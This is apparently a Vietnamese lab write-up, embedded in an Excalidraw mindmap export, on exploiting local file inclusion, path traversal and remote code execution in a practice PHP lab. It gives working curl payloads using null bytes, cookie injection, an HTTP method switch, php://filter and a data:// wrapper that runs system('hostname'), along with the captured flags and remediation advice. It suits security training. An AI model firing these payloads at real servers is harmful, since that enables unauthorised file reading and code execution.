

<div class="excalidraw-container" id="ex-anjbw8">
  <div class="excalidraw-toolbar">
    <div class="excalidraw-badge">
      <svg width="15" height="15" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2"><rect x="3" y="3" width="18" height="18" rx="2" ry="2"></rect><circle cx="8.5" cy="8.5" r="1.5"></circle><polyline points="21 15 16 10 5 21"></polyline></svg>
      <span>Excalidraw Mindmap</span>
    </div>
    <div class="excalidraw-controls">
      <button type="button" class="excalidraw-btn zoom-in" title="Phóng to">🔍+</button>
      <button type="button" class="excalidraw-btn zoom-out" title="Thu nhỏ">🔍-</button>
      <button type="button" class="excalidraw-btn zoom-reset" title="Vừa màn hình">↺</button>
      <button type="button" class="excalidraw-btn fullscreen" title="Toàn màn hình">⛶</button>
    </div>
  </div>
  <div class="excalidraw-viewport">
    <div class="excalidraw-canvas-wrapper">
      <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1242 3852" class="excalidraw-svg" data-width="1242" data-height="3852">
<g transform="translate(-23.16,255.64)">

<rect x="120.12210083007812" y="169.68960202239282" width="742.4681895410207" height="3386.000278348701" rx="8" fill="#ffffff" stroke="#e0e0e0" stroke-width="1.5" class="excalidraw-md-bg"/>
<foreignObject x="120.12210083007812" y="169.68960202239282" width="742.4681895410207" height="3386.000278348701" class="excalidraw-foreign-md">
  <div xmlns="http://www.w3.org/1999/xhtml" class="notion-embed-card">
    <div class="notion-embed-header">
      <div class="notion-embed-header-left">
        <span class="notion-embed-icon">📝</span>
        <span class="notion-embed-title">📝 BÁO CÁO KHAI THÁC &amp; RECON BÀI LAB FILE INCLUSION / PATH TRAVERSAL</span>
      </div>
      <a href="#doc-1dcd936a9289f092a0a33e936aa45213a9ce2d11" class="notion-embed-jump" title="Cuộn xuống đọc chi tiết toàn bộ nội dung">↓ Đọc bài viết</a>
    </div>
    <div class="notion-embed-body">
      <h1>📝 BÁO CÁO KHAI THÁC &amp; RECON BÀI LAB FILE INCLUSION / PATH TRAVERSAL</h1>
<p><strong>Target:</strong> <code>http://10.49.153.49/</code><br><strong>Ngày thực hiện:</strong> 29/08/2026<br><strong>Mục tiêu:</strong> Recon hạ tầng, phân tích tư duy khai thác, lấy tất cả Flag và chiếm quyền điều khiển (RCE) bài lab.</p>
<hr>
<h2>🎯 1. BẢNG KẾT QUẢ SOLVE LAB (FINAL RESULTS)</h2>
<table>
<thead>
<tr>
<th align="center">STT</th>
<th align="left">Yêu cầu / Challenge</th>
<th align="left">Phương pháp Khai thác</th>
<th align="left">Kết quả / Flag</th>
</tr>
</thead>
<tbody><tr>
<td align="center"><strong>1</strong></td>
<td align="left"><strong>Flag 1</strong> (<code>/etc/flag1</code>)</td>
<td align="left">Direct POST LFI via <code>file</code> parameter</td>
<td align="left"><code>F1x3d-iNpu7-f0rrn</code></td>
</tr>
<tr>
<td align="center"><strong>2</strong></td>
<td align="left"><strong>Flag 2</strong> (<code>/etc/flag2</code>)</td>
<td align="left">Cookie-based LFI + Null Byte Injection (<code>%00</code>)</td>
<td align="left"><code>c00k13_i5_yuMmy1</code></td>
</tr>
<tr>
<td align="center"><strong>3</strong></td>
<td align="left"><strong>Flag 3</strong> (<code>/etc/flag3</code>)</td>
<td align="left">HTTP Method Switching (GET $\rightarrow$ POST) + Null Byte (<code>%00</code>)</td>
<td align="left"><code>P0st_1s_w0rk1in9</code></td>
</tr>
<tr>
<td align="center"><strong>4</strong></td>
<td align="left"><strong>RCE</strong> (<code>/playground.php</code>)</td>
<td align="left">Remote File Inclusion via <code>data://</code> wrapper</td>
<td align="left"><code>lfi-vm-thm-f8c5b1a78692</code></td>
</tr>
</tbody></table>
<hr>
<h2>💡 2. CHUỖI TƯ DUY VÀ PHƯƠNG PHÁP LUẬN (MINDSET &amp; LOGICAL FLOW)</h2>
<pre><code class="language-mermaid">flowchart TD
    A[&quot;Bắt đầu Recon Web Target (10.49.153.49)&quot;] --&gt; B[&quot;Banner Grabbing &amp; Error Inspection&quot;]
    B --&gt; C[&quot;Phát hiện PHP 5.2 + Apache 2.2.22 đằng sau Nginx Proxy&quot;]
    C --&gt; D[&quot;Thử nghiệm các Input Vector (GET, POST, Cookie)&quot;]
    
    D --&gt;|&quot;POST Parameter&quot;| E1[&quot;Challenge 1: LFI thành công via POST&quot;]
    D --&gt;|&quot;Cookie Header&quot;| E2[&quot;Challenge 2: LFI via Cookie + Null Byte (%00)&quot;]
    D --&gt;|&quot;GET Filter Bypass&quot;| E3[&quot;Challenge 3: Chuyển HTTP Method GET -&gt; POST + %00&quot;]
    
    E1 --&gt; F[&quot;Dùng php://filter đọc Base64 mã nguồn các bài&quot;]
    E2 --&gt; F
    E3 --&gt; F
    
    F --&gt; G[&quot;Phân tích Whitebox Source Code &amp; Tìm vị trí /etc/flag*&quot;]
    G --&gt; H[&quot;Kiểm tra /playground.php - Thử nghiệm RFI &amp; PHP Wrappers&quot;]
    H --&gt; I[&quot;Thực thi thành công RCE với data:// wrapper&quot;]
</code></pre>
<h3>🧠 Các điểm tư duy cốt lõi:</h3>
<ol>
<li><p><strong>Tư duy &quot;Input Vector Matrix&quot; (Không chỉ phụ thuộc giao diện Web):</strong></p>
<ul>
<li>Giao diện HTML chỉ là lớp hiển thị ở phía Client. Các thông số gửi tới Server có thể nằm ở <code>GET</code>, <code>POST Body</code>, hoặc <code>HTTP Header (Cookie)</code>.</li>
<li>Tool như <code>curl</code> cho phép can thiệp trực tiếp vào giao thức HTTP mà không bị giới hạn bởi nút bấm hay <code>&lt;form&gt;</code> trên browser.</li>
</ul>
</li>
<li><p><strong>Fingerprinting Runtime môi trường để chọn kỹ thuật bypass phù hợp:</strong></p>
<ul>
<li>Khi quan sát lỗi <code>Warning: include(...)</code> tiết lộ môi trường đang chạy <strong>PHP 5.2</strong>, tư duy lập tức hướng tới lỗ hổng <strong>Null Byte Injection (<code>%00</code>)</strong>.</li>
<li>Trong PHP &lt; 5.3.4, ký tự <code>%00</code> ngắt chuỗi ở tầng C, giúp loại bỏ phần mở rộng <code>.php</code> bị ứng dụng nối tự động ở phía sau.</li>
</ul>
</li>
<li><p><strong>Tư duy &quot;Logic Flaw &amp; Method Impersonation&quot; (Bypass bộ lọc):</strong></p>
<ul>
<li>Khi gặp bộ lọc regex loại bỏ toàn bộ kí tự đặc biệt ở phương thức <code>GET</code> (<code>/[^a-z]/</code>), đặt câu hỏi: <em>&quot;Liệu lập trình viên có lọc đồng nhất ở tất cả HTTP Method hay không?&quot;</em></li>
<li>Chuyển request sang <code>POST</code> giúp bỏ qua hoàn toàn bước kiểm tra regex do logic code chỉ gắn regex vào điều kiện <code>if (REQUEST_METHOD == &quot;GET&quot;)</code>.</li>
</ul>
</li>
<li><p><strong>Tư duy Chuyển đổi từ Blackbox sang Whitebox:</strong></p>
<ul>
<li>Ngay khi khai thác được LFI đầu tiên, sử dụng wrapper <code>php://filter/convert.base64-encode/resource=...</code> để đọc toàn bộ mã nguồn PHP của hệ thống.</li>
<li>Việc đọc mã nguồn giúp xác định chính xác tên file flag, quy tắc chặn chuỗi (<code>strpos</code>) và đường dẫn tuyệt đối.</li>
</ul>
</li>
<li><p><strong>Tư duy nâng cấp từ LFI $\rightarrow$ RCE (Remote Code Execution):</strong></p>
<ul>
<li>Tại trang <code>/playground.php</code>, ứng dụng cho phép nạp file tự do. Thử nghiệm PHP Stream Wrapper <code>data://text/plain,&lt;?php system(&#39;hostname&#39;);?&gt;</code> cho phép nhúng và thực thi mã PHP trực tiếp trong bộ nhớ mà không cần upload file lên đĩa cứng.</li>
</ul>
</li>
</ol>
<hr>
<h2>🛠️ 3. CÁC BƯỚC HÀNH ĐỘNG CHI TIẾT (STEP-BY-STEP EXECUTION LOG)</h2>
<h3>Bước 1: Reconnaissance &amp; Hạ tầng</h3>
<ul>
<li>Quét cổng bằng Nmap: <code>nmap -sV -sC -F 10.49.153.49</code><ul>
<li>Khám phá Port 80 (Nginx 1.18.0) và Port 22 (SSH OpenSSH 8.2p1).</li>
</ul>
</li>
<li>Gửi HTTP Request kiểm tra Response Header &amp; Trang lỗi 404:<ul>
<li>Nginx đóng vai trò Reverse Proxy chuyển tiếp request tới backend <code>Apache/2.2.22</code> chạy <code>PHP 5.2</code>.</li>
</ul>
</li>
</ul>
<hr>
<h3>Bước 2: Khai thác Challenge #1 (POST Parameter LFI)</h3>
<ul>
<li><strong>Hiện trạng:</strong> Giao diện hiển thị cảnh báo <code>The input form is broken! You need to send POST request with file parameter!</code>.</li>
<li><strong>Hành động:</strong> Gửi HTTP POST request chứa tham số <code>file</code>:</li>
</ul>
<pre><code class="language-bash">curl -s -X POST -d &quot;file=../../../../../etc/flag1&quot; http://10.49.153.49/challenges/chall1.php
</code></pre>
<ul>
<li><strong>Kết quả:</strong> Đọc thành công <code>/etc/flag1</code> $\rightarrow$ <strong><code>F1x3d-iNpu7-f0rrn</code></strong>.</li>
</ul>
<hr>
<h3>Bước 3: Khai thác Challenge #2 (Cookie-based LFI + Null Byte)</h3>
<ul>
<li><strong>Hiện trạng:</strong> Trang web trả về Header <code>Set-Cookie: THM=Guest</code>. Mã nguồn nối mặc định tiền tố <code>includes/</code> và đuôi <code>.php</code>.</li>
<li><strong>Hành động:</strong> Truyền payload LFI kèm Null Byte (<code>%00</code>) qua Cookie <code>THM</code>:</li>
</ul>
<pre><code class="language-bash">curl -s -H &quot;Cookie: THM=../../../../../etc/flag2%00&quot; http://10.49.153.49/challenges/chall2.php
</code></pre>
<ul>
<li><strong>Kết quả:</strong> Ngắt được đuôi <code>.php</code> và đọc thành công <code>/etc/flag2</code> $\rightarrow$ <strong><code>c00k13_i5_yuMmy1</code></strong>.</li>
</ul>
<hr>
<h3>Bước 4: Khai thác Challenge #3 (HTTP Method Bypass + Null Byte)</h3>
<ul>
<li><strong>Hiện trạng:</strong> Phương thức <code>GET</code> sử dụng <code>preg_replace(&#39;/[^a-z]/&#39;,&#39;&#39;, $_GET[&#39;file&#39;])</code> xóa hết ký tự <code>.</code>, <code>/</code>, <code>%00</code>.</li>
<li><strong>Phân tích:</strong> Mã nguồn backend chỉ áp dụng bộ lọc regex khi <code>REQUEST_METHOD == &quot;GET&quot;</code>. Khi gửi bằng <code>POST</code>, ứng dụng bỏ qua regex và chỉ nối đuôi <code>.php</code>.</li>
<li><strong>Hành động:</strong> Chuyển sang HTTP POST request gửi tham số <code>file</code> chứa Null Byte:</li>
</ul>
<pre><code class="language-bash">curl -s -X POST -d &quot;file=../../../../../etc/flag3%00&quot; http://10.49.153.49/challenges/chall3.php
</code></pre>
<ul>
<li><strong>Kết quả:</strong> Bypass thành công bộ lọc và đọc <code>/etc/flag3</code> $\rightarrow$ <strong><code>P0st_1s_w0rk1in9</code></strong>.</li>
</ul>
<hr>
<h3>Bước 5: Đọc mã nguồn Whitebox qua PHP Wrapper</h3>
<p>Sử dụng điểm LFI ở Challenge 1 để đọc và mã hóa mã nguồn các bài lab sang Base64:</p>
<pre><code class="language-bash">curl -s -X POST -d &quot;file=php://filter/convert.base64-encode/resource=chall3.php&quot; http://10.49.153.49/challenges/chall1.php
</code></pre>
<p>Mã nguồn thu được xác nhận chính xác các giả định về logic phân nhánh <code>GET</code>/<code>POST</code> và bộ lọc <code>strpos</code>.</p>
<hr>
<h3>Bước 6: Khai thác RCE tại <code>/playground.php</code></h3>
<ul>
<li><strong>Hiện trạng:</strong> Bài lab yêu cầu đạt RCE trên <code>/playground.php</code> để lấy output của lệnh <code>hostname</code>.</li>
<li><strong>Phân tích:</strong> Cấu hình PHP cho phép <code>allow_url_include = On</code>.</li>
<li><strong>Hành động:</strong> Sử dụng PHP Wrapper <code>data://</code> để chèn trực tiếp câu lệnh PHP <code>system(&#39;hostname&#39;)</code>:</li>
</ul>
<pre><code class="language-bash">curl -s &quot;http://10.49.153.49/playground.php?file=data://text/plain,&lt;?php%20system(&#39;hostname&#39;);?&gt;&quot;
</code></pre>
<ul>
<li><strong>Kết quả:</strong> Thực thi thành công lệnh hệ thống và trả về <code>hostname</code>:</li>
</ul>
<pre><code class="language-text">lfi-vm-thm-f8c5b1a78692
</code></pre>
<hr>
<h2>🛡️ 4. KHUYẾN NGHỊ PHÒNG THỦ (REMEDIATION)</h2>
<ol>
<li><strong>Kiểm soát chặt chẽ Input (Strict Whitelisting):</strong><ul>
<li>Không cho phép người dùng tự do truyền đường dẫn file. Sử dụng danh sách cố định (Hardcoded Whitelist) các trang được phép bao hàm:<pre><code class="language-php">$allowed_pages = array(&quot;home&quot; =&gt; &quot;home.php&quot;, &quot;about&quot; =&gt; &quot;about.php&quot;);
if (array_key_exists($page, $allowed_pages)) {
    include($allowed_pages[$page]);
}
</code></pre>
</li>
</ul>
</li>
<li><strong>Nâng cấp môi trường PHP:</strong><ul>
<li>Nâng cấp lên các phiên bản PHP hiện đại ($\ge 8.x$) để vô hiệu hóa hoàn toàn lỗ hổng Null Byte Injection.</li>
</ul>
</li>
<li><strong>Cấu hình an toàn <code>php.ini</code>:</strong><ul>
<li>Tắt tính năng nạp file từ xa: <code>allow_url_fopen = Off</code> và <code>allow_url_include = Off</code>.</li>
</ul>
</li>
<li><strong>Đồng nhất quy tắc Filter:</strong><ul>
<li>Đảm bảo các bộ lọc bảo mật được áp dụng đồng nhất trên tất cả các phương thức HTTP (<code>GET</code>, <code>POST</code>, <code>PUT</code>, <code>HEADERS</code>).</li>
</ul>
</li>
</ol>

    </div>
  </div>
</foreignObject>

</g>
<g transform="translate(-23.16,255.64)">
<path d="M649.90 327.69 L649.42 328.41 L649.15 329.18 L649.15 329.18" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M976.35 459.74 L977.21 460.04 L978.06 460.34 L978.06 460.34" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M145.03 1017.51 C203.91 1015.88,263.50 1016.08,361.50 1018.79 M144.08 1017.85 C196.51 1019.49,248.34 1019.26,362.85 1016.76 M362.31 1015.30 C364.50 1036.73,363.77 1060.24,363.68 1073.44 M362.63 1017.00 C361.42 1038.01,362.66 1058.00,363.22 1074.50 M361.56 1074.05 C299.26 1075.33,233.74 1075.97,141.87 1076.73 M363.50 1075.01 C310.24 1075.21,257.79 1074.56,143.47 1076.05 M142.08 1073.97 C142.83 1053.45,144.86 1034.21,141.82 1018.61 M143.01 1074.65 C142.98 1056.54,144.25 1039.00,143.72 1017.62" stroke="#1e1e1e" stroke-width="1" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M150.94 1733.18 C255.49 1735.11,359.50 1735.59,544.00 1733.62 M151.53 1733.14 C289.09 1734.11,427.72 1734.36,543.21 1733.03 M542.11 1734.49 C541.20 1751.64,544.86 1767.31,541.83 1780.70 M542.56 1732.13 C542.97 1753.05,544.06 1772.75,543.43 1780.71 M543.83 1781.03 C439.15 1780.82,336.65 1781.11,151.49 1782.35 M543.13 1781.28 C424.01 1780.55,304.72 1780.06,151.11 1781.65 M149.51 1780.90 C150.11 1767.10,152.46 1754.55,152.90 1732.02 M151.03 1781.72 C150.55 1768.59,151.62 1755.16,151.09 1732.94" stroke="#1e1e1e" stroke-width="1" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M713.79 1838.23 L713.20 1837.70 L713.63 1837.04 L716.46 1834.96 L718.75 1833.60 L721.63 1832.11 L723.18 1831.40 L726.54 1829.97 L730.06 1828.67 L733.63 1827.54 L737.26 1826.53 L740.72 1825.70 L744.19 1824.87 L747.55 1824.15 L750.43 1823.44 L753.10 1822.73 L755.45 1822.01 L757.47 1821.30 L758.33 1820.94 L759.55 1820.29 L759.55 1820.29" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M757.69 1811.56 L757.05 1811.14 L758.11 1811.20 L759.55 1811.98 L761.05 1813.04 L761.74 1813.76 L762.96 1815.36 L763.98 1817.14 L764.62 1819.16 L764.83 1821.24 L764.46 1823.62 L763.50 1825.93 L761.74 1828.67 L757.79 1832.88 L754.59 1835.56 L753.15 1836.51 L750.43 1837.93 L750.43 1837.93" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M788.08 1810.07 L788.08 1808.95 L788.40 1809.90 L788.72 1811.86 L789.15 1815.18 L789.47 1817.26 L789.63 1818.21 L789.95 1819.70 L790.22 1820.89 L790.38 1821.78 L790.59 1822.73 L791.12 1820.77 L791.66 1817.44 L792.08 1815.42 L792.51 1813.58 L792.99 1812.21 L793.42 1811.02 L793.84 1810.19 L794.38 1809.48 L795.02 1808.71 L795.71 1808.17 L796.62 1808.00 L797.47 1808.23 L797.95 1808.89 L798.75 1810.85 L799.02 1811.68 L799.39 1813.22 L799.60 1814.65 L799.66 1815.84 L799.76 1817.02 L799.87 1817.92 L799.98 1819.16 L800.19 1820.05 L800.67 1820.77 L801.63 1821.06 L804.83 1820.71 L804.83 1820.71" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M813.36 1811.62 L813.31 1810.61 L813.15 1811.56 L813.15 1812.75 L813.20 1813.76 L813.36 1814.77 L813.52 1815.90 L813.63 1816.91 L814.17 1816.07 L814.64 1814.47 L814.96 1813.64 L815.29 1812.87 L816.40 1810.85 L816.83 1810.19 L817.52 1809.24 L818.22 1808.53 L818.81 1808.05 L819.66 1807.82 L820.62 1808.35 L821.05 1809.12 L821.63 1810.31 L821.90 1811.98 L822.11 1813.40 L822.27 1814.65 L822.33 1815.72 L822.38 1817.02 L822.38 1818.21 L823.18 1816.37 L823.71 1814.83 L824.35 1813.10 L824.88 1811.92 L826.11 1810.07 L826.70 1809.42 L827.55 1808.89 L828.72 1808.95 L829.36 1809.78 L829.79 1810.79 L830.17 1812.75 L830.43 1814.35 L830.64 1815.72 L830.70 1816.91 L830.81 1817.92 L830.81 1819.22 L830.86 1820.35 L830.86 1820.35" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M845.42 1813.28 L845.26 1812.03 L844.83 1811.20 L843.98 1810.61 L842.96 1810.43 L841.90 1810.49 L840.67 1810.97 L838.96 1811.92 L837.52 1813.10 L836.51 1814.59 L835.87 1816.13 L835.60 1817.38 L835.66 1818.51 L836.03 1819.34 L836.51 1819.99 L837.26 1820.41 L838.48 1820.59 L840.24 1820.23 L841.95 1819.28 L843.39 1817.97 L844.57 1816.43 L845.36 1814.71 L845.79 1813.28 L846.06 1811.98 L846.22 1810.79 L846.06 1809.84 L845.42 1810.43 L845.26 1811.38 L845.26 1812.51 L845.42 1813.58 L845.90 1814.95 L846.64 1816.07 L847.45 1816.79 L848.30 1817.08 L849.36 1817.08 L850.38 1816.55 L851.29 1815.78 L852.30 1814.41 L852.72 1813.76 L853.36 1812.69 L853.90 1811.92 L854.33 1811.02 L854.75 1811.74 L854.54 1814.23 L854.33 1816.85 L854.17 1819.82 L854.00 1822.85 L854.00 1825.93 L854.00 1830.27 L854.11 1831.64 L854.22 1834.13 L854.22 1835.97 L854.38 1837.40 L854.38 1838.47 L854.43 1839.66 L854.00 1839.00 L853.36 1834.73 L852.94 1830.92 L852.72 1827.30 L852.72 1823.86 L852.88 1820.89 L853.20 1817.97 L853.79 1815.48 L854.59 1813.22 L855.07 1812.03 L856.08 1810.19 L857.31 1808.59 L858.48 1807.52 L859.39 1806.87 L860.46 1806.69 L861.26 1807.10 L861.52 1807.88 L861.47 1808.95 L861.05 1810.31 L860.08 1812.03 L859.02 1813.64 L857.79 1814.95 L855.93 1815.90 L854.75 1815.84 L853.63 1815.66 L853.63 1815.66" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="743.62" y="2054.15" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="18.349217006138385" fill="#1e1e1e" text-anchor="start"><tspan x="743.62" dy="0">đại khái là cái này nó vẫn là lỗi file</tspan><tspan x="743.62" dy="22.936521257672982">inclusion thôi , nhưng mà nó bắt gửi</tspan><tspan x="743.62" dy="22.936521257672982">input qua POST</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M328.67 2120.16 L328.83 2119.26 L329.52 2118.79 L331.82 2118.55 L334.32 2118.31 L337.20 2118.25 L340.51 2118.31 L344.40 2118.61 L348.67 2119.09 L353.63 2119.74 L359.07 2120.63 L361.95 2121.05 L367.87 2122.06 L378.43 2123.66 L385.84 2124.79 L393.58 2125.68 L401.47 2126.39 L409.31 2127.05 L417.15 2127.58 L424.46 2127.82 L431.76 2128.11 L438.70 2128.29 L445.63 2128.29 L452.14 2128.29 L458.38 2128.17 L464.24 2128.17 L471.71 2128.17 L474.00 2128.17 L478.43 2128.35 L482.75 2128.41 L486.96 2128.53 L491.07 2128.65 L495.02 2128.71 L498.48 2128.71 L501.95 2128.65 L505.26 2128.53 L508.56 2128.41 L513.15 2128.17 L516.08 2128.00 L518.80 2127.76 L521.47 2127.58 L523.98 2127.34 L526.16 2127.11 L527.18 2126.99 L528.88 2126.81 L530.32 2126.69 L531.55 2126.57 L532.56 2126.45 L533.84 2126.39 L534.86 2126.27 L535.98 2126.04 L535.98 2126.04" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M614.59 2142.43 L613.79 2142.07 L612.99 2141.84 L613.15 2143.08 L614.16 2144.75 L615.44 2146.77 L617.36 2149.02 L619.66 2151.58 L622.16 2154.01 L625.26 2156.81 L626.80 2158.17 L629.63 2160.49 L632.56 2162.75 L636.99 2165.89 L640.08 2167.62 L643.18 2169.10 L646.27 2170.47 L649.36 2171.54 L652.08 2172.25 L654.80 2172.84 L657.36 2173.20 L659.82 2173.44 L662.00 2173.50 L663.82 2173.44 L665.31 2173.26 L666.54 2173.08 L667.55 2172.90 L668.46 2172.73 L669.58 2172.43 L670.43 2172.13 L671.34 2171.72 L671.98 2171.24 L671.98 2171.24" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M673.20 2161.02 L673.95 2161.38 L674.48 2162.09 L675.28 2163.76 L676.08 2166.55 L676.14 2168.33 L676.03 2169.81 L675.50 2171.95 L674.48 2173.97 L673.79 2174.98 L671.98 2177.00 L669.68 2178.78 L667.18 2180.27 L664.99 2181.22 L663.87 2181.64 L663.87 2181.64" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="703.39" y="2180.07" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="20" fill="#1e1e1e" text-anchor="start"><tspan x="703.39" dy="0">đơn giản là path traversal</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M542.54 2222.15 L540.30 2221.14 L539.07 2220.72 L537.58 2220.19 L532.51 2219.12 L528.67 2218.76 L524.46 2218.76 L519.44 2219.35 L514.22 2220.42 L508.99 2221.91 L503.98 2223.93 L499.39 2226.13 L497.20 2227.43 L493.58 2230.11 L490.64 2233.20 L488.78 2236.34 L487.44 2241.69 L487.71 2245.37 L489.10 2249.41 L491.76 2253.51 L496.19 2257.67 L501.74 2261.29 L509.47 2264.56 L514.11 2266.16 L522.22 2268.00 L530.22 2269.19 L538.48 2269.91 L550.96 2270.14 L558.96 2269.73 L566.48 2268.95 L573.04 2267.83 L578.86 2266.64 L584.46 2265.21 L589.58 2263.49 L594.22 2261.71 L596.46 2260.76 L600.62 2258.68 L604.24 2256.30 L607.39 2253.87 L611.18 2250.36 L613.20 2248.10 L614.64 2246.09 L615.55 2244.01 L616.24 2241.87 L616.35 2239.67 L616.08 2237.35 L615.12 2234.74 L614.38 2233.37 L612.19 2230.82 L608.78 2228.15 L601.15 2224.94 L594.00 2223.33 L585.74 2222.74 L576.94 2222.80 L565.20 2223.93 L555.50 2225.59 L551.76 2226.48 L551.76 2226.48" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="872.04" y="2272.85" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="16.279979887462808" fill="#1e1e1e" text-anchor="start"><tspan x="872.04" dy="0">tại lab2 thì nó cần authorise, nhưng</tspan><tspan x="872.04" dy="20.349974859328512">cookie nó gửi theo clear text???</tspan><tspan x="872.04" dy="20.349974859328512">==&gt; thay cookie là truy cập được</tspan><tspan x="872.04" dy="20.349974859328512">==&gt; gửi POST kèm cookie=Admin là ok</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M623.98 2253.15 L624.19 2252.32 L624.46 2251.49 L624.83 2250.66 L625.84 2249.41 L627.28 2247.93 L629.20 2246.20 L631.76 2244.30 L633.36 2243.29 L637.20 2240.98 L641.47 2238.78 L646.11 2236.76 L650.96 2234.80 L655.92 2233.08 L663.87 2230.88 L669.47 2229.57 L675.50 2228.68 L682.38 2228.03 L689.47 2227.49 L696.88 2227.37 L700.88 2227.43 L708.78 2227.79 L716.56 2228.32 L724.24 2229.04 L731.76 2229.87 L739.18 2230.82 L750.06 2232.36 L757.20 2233.61 L764.19 2234.92 L770.86 2236.34 L776.56 2237.77 L781.79 2239.55 L784.30 2240.50 L788.94 2242.58 L793.04 2244.72 L796.94 2246.92 L799.87 2248.94 L802.59 2250.96 L806.32 2253.93 L808.40 2255.95 L810.06 2257.55 L811.66 2259.09 L813.04 2260.52 L813.74 2261.29 L814.91 2262.54 L815.44 2263.13 L816.30 2264.14 L817.74 2265.69 L818.59 2266.76 L819.39 2267.71 L820.03 2268.48 L820.51 2269.19 L821.04 2269.85 L821.68 2270.74 L822.27 2271.45 L822.75 2271.98 L823.39 2272.82 L823.98 2273.53 L824.56 2274.18 L825.04 2274.84 L825.04 2274.84" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M827.28 2264.86 L826.86 2263.97 L827.50 2263.55 L828.35 2263.97 L828.99 2264.62 L830.43 2266.94 L830.91 2268.36 L831.12 2269.73 L831.12 2271.03 L830.70 2273.23 L829.90 2275.37 L828.62 2277.51 L827.92 2278.52 L826.27 2280.42 L824.46 2282.02 L822.49 2283.45 L820.30 2284.76 L816.99 2286.06 L814.86 2286.48 L814.86 2286.48" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M310.68 2492.04 L309.50 2492.04 L310.46 2491.67 L312.37 2491.73 L315.57 2491.73 L319.61 2491.73 L324.33 2491.73 L329.60 2491.73 L335.72 2491.67 L342.01 2491.48 L348.24 2491.36 L354.47 2491.04 L360.42 2490.85 L365.93 2490.54 L370.98 2490.29 L375.86 2489.98 L380.47 2489.85 L384.79 2489.61 L388.49 2489.48 L391.86 2489.23 L394.89 2489.17 L397.70 2489.04 L401.52 2488.79 L402.59 2488.73 L404.33 2488.67 L405.67 2488.48 L406.74 2488.42 L408.03 2488.35 L409.32 2488.17 L410.39 2488.10 L410.39 2488.10" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
